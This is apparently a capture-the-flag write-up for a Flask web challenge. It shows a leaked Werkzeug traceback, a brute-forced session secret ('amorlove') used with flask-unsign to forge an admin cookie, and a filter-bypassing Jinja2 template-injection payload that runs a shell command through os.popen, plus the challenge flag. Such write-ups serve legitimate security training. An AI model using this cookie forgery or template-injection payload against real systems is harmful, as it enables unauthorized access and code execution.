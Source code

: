 # Father's Light
> Enter the enigmatic realm of "Father of Light" Unleash your skills, explore hidden paths, and uncover the depths of mysterious creations. Will you emerge as the champion? Dare to unravel the enigma.

## About the Challenge
We were given a website (without the source code) and there is a login page in this website

![preview](images/preview.png)

## How to Solve?
If you check the HTTP response header, this website using Python and Werkzeug.

![header](images/header.png)

And now I tried to make the website error to know what is the response. In this case I made the website error by removing `password` parameter when hitting `/login` endpoint

![error](images/error.png)

Hmmm there is an interesting code here especially in the `elif` part. Lets try to login using `admin:password` credential

![user](images/user.png)

Yay, we can login but as an `user`? Let's check the cookie value

![cookie](images/cookie.png)

This website was using flask for Session-based auth. And because of this website using flask, we can bruteforce the secret key and changed the value of the cookie.

```bash
root@root:~$ flask-unsign --unsign --cookie ".eJyrVsosjk9Myc3MU7JKS8wpTtVRKi1OLYrPTFGyUjI0M1KC8PMSc1OBAhCFtQDj5xGP.ZM5ITg.NrGKbBGCkxPIk0iQLQE2Cuc2cGc" --wordlist /home/daffainfo/tools/rockyou.txt  --no-literal-eval
[*] Session decodes to: {'is_admin': False, 'user_id': '162', 'username': 'admin'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 30080 attempts
b'amorlove'
```

We got `amorlove`. And now tried to change the value of `is_admin` from `False` to `True`. Sign the cookie again using `flask-unsign`

```bash
root@root:~$ flask-unsign --sign --cookie "{'is_admin': True, 'user_id': '162', 'username': 'admin'" --secret 'amo
rlove'
.eJxTqlbPLI5PTMnNzFO3UggpKk3VUVAvLU4tis9MAQqoG5oZqUNF8hJzU0FCEMVKABlZEb0.ZM5KNg.PfOTwsnj9w7TxbSPYtQDuLg9lJQ
```

Use the cookie to access `/user` endpoint again and as you can see the the privilege was changed from `user` to `admin`. Now go to `/dashboard` and you will find another form that vulnerable SSTI. In the end the payload was something like this

```
POST /POST HTTP/1.1
Host: 34.18.3.149:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Origin: http://34.18.3.149:5000
Connection: close
Referer: http://34.18.3.149:5000/dashboard
Cookie: session=eyJpc19hZG1pbiI6dHJ1ZSwidXNlcl9pZCI6IjEiLCJ1c2VybmFtZSI6ImRkZGQifQ.ZM2u4A.rbYhmXmWZmjpdzXAIQH6pb5EFfk
Upgrade-Insecure-Requests: 1

name={{lipsum['\x5f\x5fglobals\x5f\x5f']['os']['po''pen']('cat+app.py')['re''ad']()}}&email=test%40mail.com&post_content=test
```

> There is no screenshot for this part because the website was down

```
ASCWG{H0la_H@Ck3r5_Th1s_a_S3m6le_55TI}
```
